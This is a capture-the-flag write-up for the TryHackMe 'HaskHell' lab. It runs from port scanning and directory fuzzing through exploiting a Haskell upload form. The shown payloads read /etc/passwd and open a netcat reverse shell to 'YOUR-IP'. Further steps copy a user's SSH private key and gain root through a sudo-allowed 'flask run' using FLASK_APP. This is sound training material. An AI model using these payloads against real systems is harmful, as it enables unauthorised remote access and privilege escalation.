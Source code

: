 # Tryhackme - HaskHell - WruteUp
![alt text](image.png)

## Description
This machine provides an excellent hands-on introduction to Haskell programming for security enthusiasts. It’s simple enough for beginners yet offers interesting challenges that deepen understanding. Working through the exercises builds practical skills and reinforces functional programming concepts. The experience is both educational and engaging, making it a worthwhile learning opportunity.
Overall, it’s a great way to combine security practice with solid Haskell fundamentals.
## Enumeartion
First of all we must attempt an Nmap scan to see the open ports of the target. Running nmap as root.
```php
nmap -sV -sC -T4 -vv -o nmapScan 10.10.104.103

# Nmap 7.94SVN scan initiated Fri Oct 31 06:02:46 2025 as: /usr/lib/nmap/nmap -sV -sC -T4 -vv -o nmapScan 10.10.104.103
Nmap scan report for 10.10.104.103
Host is up, received echo-reply ttl 63 (0.076s latency).
Scanned at 2025-10-31 06:02:47 EDT for 20s
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD6azVu3Hr+20SblWk0j7SeT8U3VySD4u18ChyDYyOoZiza2PTe1qsuwnw06/kboHaLejqPmnxkMDWgEeXoW0L11q2D8mfSf8EVvk++7bNqQ0mlkjdcknOs11mdYqSOkM1yw06LolltKtjlf/FpT706QFkRKQO30fT4YgKY6GD71aYdafhTBgZlXA51pGyruDUOP+lqhVPvLZJnI/oOTWkv5kT0a3T+FGRZfEi+GBrhvxP7R7n3QFRSBDPKSBRYLVdlSYXPD83P1pND6F/r3BvyfHw4UY0yKbw+ntvhiRcUI2FYyN5Vj1Jrb6ipCnp5+UcFdmROOHSgWS5Qzzx5fPZB
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMx1lBsNtSWJvxM159Ahr110Jpf3M/dVqblDAoVXd8QSIEYIxEgeqTdbS4HaHPYnFyO1j8s6fQuUemJClGw3Bh8=
|   256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICPmznEBphODSYkIjIjOA+0dmQPxltUfnnCTjaYbc39R
5001/tcp open  http    syn-ack ttl 63 Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-title: Homepage
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 31 06:03:07 2025 -- 1 IP address (1 host up) scanned in 20.90 seconds
```

There are two ports open:
- 22 SSH
- 5001 http Gunicorn 19.7.1

## Directory Scanning
Accessing the http://target-ip:5001 on web we can see the following page.
![](image-1.png)

It's a welcome message for the Haskell programming language. Now we can fuzz the page using any directory scanning tool. I prefer the [dirsearch](https://github.com/maurosoria/dirsearch).

![alt text](image-2.png)

Dirsearch found the submit folder which is accessible and is an upload file functionality.
![alt text](image-3.png)

I try to upload a php revese shell file but nothing happened. But if we upload a .hs file it shows results. I create this file to access the /etc/passwd file.
```php
import System.IO

main = do
        handle <- openFile "/etc/passwd" ReadMode
        contents <- hGetContents handle
        putStr contents
        hClose handle
```
After I hit Upload i get this results.
![alt text](image-4.png)

Now it's time for the reverse shell part
## Reverse shell - User Flag
The reverse shell code can be found to [github](https://github.com/passthehashbrowns/Haskell-Reverse-Shell/blob/master/README.md) or to the [reverse shell generator](https://www.revshells.com/). I prefere the generator by choosing the Haskell#1
```php
module Main where

import System.Process

main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | sh -i 2>&1 | nc YOUR-IP YOUR-PORT >/tmp/f"
```

Save it with the extension .hs, start a netcat listener and upload it.
![alt text](image-5.png)

After the successful reverse shell connection the user flag located to the path: /home/prof/user.txt
```
find / -name "user.txt" 2>/dev/null
/home/prof/user.txt
```

## Prof User
In home direvtory there are three users.
```
flask  haskell  prof
```
We can see the prof's id_rsa key which is located to
```
/home/prof/.ssh/id_rsa
```

Copy it on your local machine, change the permissions to 600 by typing 
```
chmod 600 id_rsa
```
Now log in to prof user with the following ssh command:
```
ssh prof@<TARGET-IP> -i id_rsa
```
![alt text](image-6.png)

## Root Flag
After we logged in with prof user we can type sudo -l to see what can the prof user run with sudo.
```
sudo -l

Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
```

We can use /usr/bin/flask run. By just typing /usr/bin/flask on the terminal we can see the help option appear on the screen
```
Usage: flask [OPTIONS] COMMAND [ARGS]...

  This shell command acts as general utility
  script for Flask applications.

  It loads the application configured (through
  the FLASK_APP environment variable) and then
  provides commands either provided by the
  application or Flask itself.

  The most useful commands are the "run" and
  "shell" command.

  Example usage:

    $ export FLASK_APP=hello.py
    $ export FLASK_DEBUG=1
    $ flask run

Options:
  --version  Show the flask version
  --help     Show this message and exit.

Commands:
  run    Runs a development server.
  shell  Runs a shell in the app context.
```

The flask run command starts a Flask development server; by default it loads a Python application from the FLASK_APP environment variable and executes that code as a Python module. Because you can run flask run as root, any application code Flask imports or runs will also execute with root privileges. We can exploit it by setting FLASK_APP to a Python script that spawns a root shell.

### Follow these steps
```php
prof@haskhell:~$ cd /tmp
prof@haskhell:/tmp$ echo 'import os; os.system("/bin/bash")' > shell.py
prof@haskhell:/tmp$ export FLASK_APP=/tmp/shell.py
prof@haskhell:/tmp$ sudo /usr/bin/flask run
```
Now we are Root
![alt text](image-7.png)
